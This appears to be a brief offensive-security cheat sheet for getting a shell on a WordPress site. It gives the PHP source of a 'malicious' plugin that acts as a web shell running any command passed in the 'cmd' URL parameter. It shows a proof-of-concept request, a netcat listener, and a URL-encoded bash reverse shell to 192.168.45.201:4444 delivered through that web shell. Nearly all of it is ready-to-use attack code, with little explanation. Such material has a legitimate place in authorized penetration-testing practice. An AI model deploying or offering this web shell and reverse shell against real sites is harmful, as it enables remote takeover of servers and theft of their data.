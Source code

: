 Create the plugin from scratch:

mkdir malicious_shell_plugin/

cd malicious_shell_plugin/

sudo nano malicious-plugin.php

CODE:

<?php
/*
Plugin Name: Malicious wordpress plugin
Description: A plugin with a web shell.
Version: 1.1337
Author: 1337 
*/

if (isset($_GET['cmd'])) {
    echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
}
?>
sudo chmod +x malicious-plugin.php

zip -r shell_plugin.zip shell_plugin

Check if file is there

http://1337.codes/wp-content/plugins/shell_plugin/

Proof of concept:

http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=id

Setup a listener:

┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 4444

Pick a shell from https://www.revshells.com/

sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261

Make it beter with bash -c "COMMAND"

bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"

http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"
